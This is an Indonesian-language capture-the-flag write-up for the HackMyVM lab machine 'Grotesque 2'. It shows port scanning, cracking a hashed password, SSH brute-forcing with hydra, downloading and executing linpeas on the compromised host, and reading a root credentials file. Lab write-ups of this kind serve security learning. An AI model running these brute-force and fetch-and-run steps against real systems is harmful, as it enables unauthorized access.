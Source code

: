 ```yaml
---
layout: Post
title: HackMyVM - Grotesque2 Writeup
date: 2021-10-20 10.28 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/grotesque2.zip">Grotesque 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://hackmyvm.eu/profile/?user=cromiphi">cromiphi</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7935]
└─[$] nmap -A 192.168.0.199                                                                                                 [23:22:27]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-19 23:23 EDT
Stats: 0:04:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.97% done; ETC: 23:27 (0:00:00 remaining)
Nmap scan report for 192.168.0.199
Host is up (0.00069s latency).

```
Disini sangat aneh karena port http yang terbuka mulai dari 33-555 jadi saya coba mengecek nya menggunakan script

## HTTP
Oke disini saya mengecek http dengan semua port dari 33-555 menggunakan script bash

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7950]
└─[$] for i in {23..600};do wget 192.168.0.199:$i -O index$i; done
```1

setelah itu saya cek menggunakan command sort untuk mengurutkan file dari yang terkecil sampai terbesar penyimpananya

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7951]
└─[$] ls -la | sort                                                                                                         [23:35:53]
drwxr-xr-x 2 root root 20480 Oct 19 23:35 .
drwxr-xr-x 3 root root 20480 Oct 19 23:29 ..
-rw-r--r-- 1 root root     0 Oct 19 23:35 index23
-rw-r--r-- 1 root root     0 Oct 19 23:35 index24
-rw-r--r-- 1 root root     0 Oct 19 23:35 index25
-rw-r--r-- 1 root root     0 Oct 19 23:35 index26
-rw-r--r-- 1 root root     0 Oct 19 23:35 index27
...
-rw-r--r-- 1 root root   412 Oct 19 23:35 index96
-rw-r--r-- 1 root root   412 Oct 19 23:35 index97
-rw-r--r-- 1 root root   412 Oct 19 23:35 index98
-rw-r--r-- 1 root root   412 Oct 19 23:35 index99
-rw-r--r-- 1 root root   762 Oct 19 23:35 index258
total 2144
```
dan ternyata port ke 258 memiliki penyimpanan yang lebih banyak jadi saya cek ke web menggunakan port 258.

![](images/grotesque/1.png)

# SSH

Oke disini kita dapat list username. sedangkan password nya ada di gambar Ibu Jari dan dikurangi dengan 100

![](images/grotesque/2.png)

```console
b6e705ea1249e2bb7b0fd7dac9fcd1b3
                             100
b6e705ea1249e2bb7b0fd7dac9fcd0b3 => ini adalah password ssh nya
```

selanjutnya kita crack passsword ssh nya menggunakan crack online yaitu crackstation

![](images/grotesque/crackstation.png)

Karena kita sudah mendapatkan password ssh nya selanjutnya kita mencari username dari ssh nya menggunakan hydra

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7963]
└─[$] hydra -L user.list -p solo**** 192.168.0.199 ssh                                                                      [23:46:39]
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-19 23:46:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://192.168.0.199:22/
[22][ssh] host: 192.168.0.199   login: ang**   password: solo****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-19 23:46:55
```

lalu kita ssh menggunakan user dan password tadi dan didapatkan user.txt. selanjutnya kita harus mendapatkan hak akses root. saya  menggunakan linpeas untuk mengetahui kerentanannya

```console
angel@grotesque:~$ wget https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
--2021-10-19 22:49:49--  https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh [following]
--2021-10-19 22:49:50--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[============================================================>] 466.05K   673KB/s    in 0.7s    

2021-10-19 22:49:51 (673 KB/s) - ‘linpeas.sh’ saved [477235/477235]

angel@grotesque:~$ chmod +x linpeas.sh 
angel@grotesque:~$ ./linpeas.sh 
```
dan ditemukan 
```console

══════════╣ Unexpected in root
/vmlinuz.old
/rootcreds.txt
/initrd.img
/initrd.img.old
/vmlinuz
```
dan kita cat 
```console
angel@grotesque:~$ cat /rootcred****
root creds

root
sweet*****
root creds
```
ditemukan password root. kita su root dan dapat hak akses root dan juga flag root
